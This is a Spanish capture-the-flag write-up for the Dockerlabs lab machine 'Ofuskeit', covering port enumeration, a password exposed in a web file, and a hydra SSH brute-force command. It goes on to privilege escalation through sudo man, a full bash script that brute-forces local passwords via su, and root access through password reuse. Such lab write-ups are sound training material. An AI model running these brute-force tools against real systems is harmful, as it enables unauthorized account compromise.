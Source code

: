 # 🖥️ Write-Up: [OFUSKEIT](https://dockerlabs.es)

## 📌 Información General
    - Nombre de la máquina: Ofuskeit
    - Plataforma: Dockerlabs
    - Dificultad: Medio
    - Creador: El pingüino de Mario
    - OS: Linux
---

## 🔍 Enumeración

La máquina Ofuskeit posee la ip **172.17.0.2**.

### Descubrimiento de Puertos

Vamos a comenzar enumerando los puertos abiertos de la máquina, para ello utilizaremos la herramienta de **nmap**.

![allPorts](screenshots/allPorts.png)

Vemos que tiene abiertos los puertos 22, 80 y 3000, así que vamos a averiguar que servicios y versiones se ejecutan en estos puertos mediante el uso de **nmap**.

![target](screenshots/target.png)

- El puerto 22 ejecuta un servicio de OpenSSH, pero no disponemos de credenciales y esta versión del servicio no es vulnerable.

- El puerto 80 ejecuta un servicio web con Apache.

- El puerto 3000 ejecuta un servicio web de Express js.

### Puerto 80

Si accedemos con el navegador a la ip de la máquina, vemos la web de una empresa de mantenimiento informático.

![home-80](screenshots/home-80.png)

Vamos a buscar subdirectorios empleando la herramienta **gobuster**.

![fuzzing](screenshots/fuzzing.png)

## 🔥 Explotación

Nos centramos en los subdirectorios de **/api.js** y **/script.js**.

En **script.js** encontramos código ofuscado de javascript. Tras varios intentos de desofuscarlo utilizando diferentes webs, no conseguimos obtener un buen resultado.

![obfuscate](screenshots/obfuscate.png)

En **api.js** vemos el código fuente del servicio de Express js que se ejecuta en el puerto 3000. En él se valida el token de la petición al endpoint y en caso de que este sea válido se devuelve uan contraseña. Pero claro, nosotros podemos ver la contraseña, **chocolate123**, sin necesidad de enviar la petición.

![api](screenshots/api.png)

Con esta contraseña vamos a ejecutar un ataque de fuerza bruta sobre el servicio de OpenSSH del puerto 22, como lista de usuarios vamos a usar **/SecLists/Usernames/xato-net-10-million-usernames.txt** que llamaremos **usernames** para simplificar.

```bash
hydra -L usernames -p chocolate123 ssh://172.17.0.2
```

![hydra-result](screenshots/hydra-result.png)

## 🔑 Acceso SSH

Con las credenciales **admin:chocolate123** nos conectamos por ssh

```bash
ssh admin@172.17.0.2
```

## 🧗 Escalada de Privilegios

### Balulito

Si revisamos sus permisos sudoers con `sudo -l`, vemos que podemos ejecutar como el usuario balulito **man**

![sudoers](screenshots/sudoers-admin.png)

Revisamos https://gtfobins.github.io/gtfobins/man/#sudo para ver como subir privilegios con **man**.

![man1](screenshots/man1.png)
![man2](screenshots/man2.png)

Y nos convertimos en el usuario **balulito**.

![balulito](screenshots/balulito.png)

Al intenter ver los permisos **sudoers** nos pide contraseña. Revisando el sistema encontramos en el archivo **/var/www/html/.git** una posible contraseña **'this is top secret'**, la cual no funciona.

Por lo tanto, vamos a utilizar un script en bash para aplicar fuerza bruta y obtener la contraseña de balulito, lo llamaremos **force.sh**

```bash
#!/bin/bash

# Colour
greenColour="\e[0;32m\033[1m"
redColour="\e[0;31m\033[1m"
endColour="\033[0m\e[0m"

ctrl_c(){
    echo -e "\n${redColour}[!] Aborting...${endColour}\n"
    tput cnorm && exit 1
}

# Ctrl+c
trap ctrl_c INT

if [ "$#" -ne "2" ]; then
	echo "Insert an user and a password's list"
	exit 1
fi

user="$1"
dicc="$2"

tput civis
while read passw ; do

    echo "Checking $passw"
    timeout 0.2 echo $passw | su $user -c 'echo "Hello"' &>/dev/null 

    if [ $? -eq 0 ]; then
        echo -e "\nUser--> ${greenColour}$user${endColour} Password--> ${greenColour}$passw${endColour}\n"
        exit 0
    fi

done < $dicc

tput cnorm
```
Nos pasamos mediante scp, como el usuario **admin**, este script y una versión reducida del rockyou, la cual contiene las primeras 5000 contraseñas que llamamos minirock.

```bash
scp force.sh admin@172.17.0.2:/home/admin/force.sh
scp minirock admin@172.17.0.2:/home/admin/minirock
```

Ahora como el script pertenece al usuario **admin** no lo podemos ejecutar como **balulito**, por lo que nos volvemos a conectar por ssh como **admin** y lo ejecutamos.

```bash
./force.sh balulito minirock
```

Y encontramos la contraseña **password1**

Con ella comprobamos los permisos sudoers del usuario **balulito** pero no posee ninguno.

### Root

Comprobamos si el usuario **root** reutiliza alguna de las contraseñas que tenemos y efectivamente, su contraseña es **chocolate123**.

Así que usamos las credenciales **root:chocolate123** y ya somos root.

![root](screenshots/root.png)


